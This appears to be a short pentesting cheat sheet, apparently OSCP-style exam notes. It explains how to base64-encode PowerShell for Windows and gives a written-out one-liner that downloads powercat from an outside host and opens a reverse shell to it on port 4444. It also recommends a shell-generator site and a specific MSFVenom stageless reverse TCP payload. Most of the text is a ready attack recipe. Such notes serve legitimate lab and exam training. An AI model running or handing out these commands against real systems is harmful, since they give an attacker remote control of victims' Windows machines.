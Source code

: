 If you are attacking Windows, here is how to base64 encode in linux so that Windows can use it.

```console
echo -n "a powershell command" | iconv -f UTF-8 -t UTF-16LE | base64 -w 0
```
Here is an example that downloads powercat and then uses it to start a reverseshell
```console
echo -n "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1'); powercat -c 192.168.119.2 -p 4444 -e powershell" | iconv -f UTF-8 -t UTF-16LE | base64 -w 0
```
Great site for generating shells.
[Revshells.com](https://www.revshells.com/) 
<hr style="border-color:red"><p style="color:red;align:center">If you use MSFVenom, always use the 4th option Windows Stageless Reverse TCP so you get full points</p><hr style="border-color:red">
